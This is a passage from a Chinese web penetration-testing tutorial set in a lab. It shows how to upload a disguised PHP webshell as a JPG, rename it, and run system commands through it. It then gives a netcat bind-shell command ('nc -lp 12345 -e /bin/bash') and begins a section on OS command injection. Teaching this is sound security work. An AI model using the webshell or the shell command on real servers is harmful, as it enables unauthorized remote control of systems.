     我们并没有得到这个文件执行的任何输出，我们需要假设`webshell.jpg`命名为`webshell.php`。

5.  如果它能工作，我们应该能够包含`../../hackable/uploads/ webshell.php`，让我们试试：

    ![](../img/94e4ac4e22f10bcd427091f4687c3775.png)

6.  在左上角的文本框中，输入`/sbin/ifconfig`并按下回车：

    ![](../img/6256535c3272139e532231ab16a16fe2.png)

    并且它能够工作。就像图片中那样，服务器的 IP 是`192.168.56.102`。现在，我们可以在服务器中执行命令，通过将它们键入到文本框中，或者为`cmd`参数设置不同的值。

### 工作原理

在上传有效 JPG 文件时，我们所做的第一个测试是为了发现上传文件保存的路径，便于我们可以在`rename.php`中，以及表单的`action`中使用这个路径。

使用重命名脚本有两个重要原因：首先，上传页面只允许 JPG 文件，所以我们的脚本需要这个扩展名，其次，我们需要带参数调用我们的 webshell（要执行的命令），而我们从 Web 服务器调用图片时不能带参数。

PHP 中的`system()`函数是攻击核心，它所做的是，执行系统命令并显示输出。这允许我们将 webshell 文件从`.jpg`重命名为`.php`文件并执行我们指定为 GET 参数的命令。

### 更多

一旦我们上传并执行了服务端代码，我们有很多选择来攻陷服务器，例如，下列代码可以在绑定的 shell 中调用：

```
nc -lp 12345 -e /bin/bash
```

它打开服务器的 TCP 12345 端口并监听连接。连接建立之后，它会将接收的信息作为输入来执行`/bin/bash`，并把输出通过网络发给被连接的主机（攻击者主机）。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。

## 6.2 利用 OS 命令注入

在上一个秘籍中，我们看到 PHP 的`system()`如何用于在服务器中执行 OS 命令。有时开发者会使用类似于它的指令，或者相同的功能来执行一些任务，有时候他们会使用无效的用户输入作为参数来执行命令。

这个秘籍中，我们会利用命令注入漏洞来提取服务器中的重要信息。
